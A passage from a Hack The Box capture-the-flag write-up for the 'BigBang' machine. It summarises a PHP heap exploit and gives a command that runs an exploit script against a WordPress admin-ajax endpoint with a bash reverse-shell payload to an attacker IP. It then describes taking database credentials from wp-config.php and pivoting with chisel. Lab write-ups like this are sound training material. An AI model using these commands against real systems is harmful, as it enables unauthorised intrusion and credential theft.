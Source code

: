 In simple terms:
•	The exploit reads sensitive files from the server.
•	It manipulates memory to gain control.
•	It then executes commands on the target server remotely.

This is a highly advanced heap exploitation technique for hacking vulnerable PHP applications.

---

## 🔱 Initial Access :-

```bash
python3 initial_exploit.py 'http://blog.bigbang.htb/wp-admin/admin-ajax.php' 'bash -c "bash -i >& /dev/tcp/10.10.14.xxx/2004 0>&1"'
```

![Screenshot 2025-01-28 at 12.35.29 AM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-28_at_12.35.29_AM.png)

First thing to check `wp-config.php` file. We got  cred of DB and the host ip is 172.17.0.1
So we will use chisel tool to do a reverse proxy on this machine including proxychains

![Screenshot 2025-01-27 at 7.53.17 PM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-27_at_7.53.17_PM.png)

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
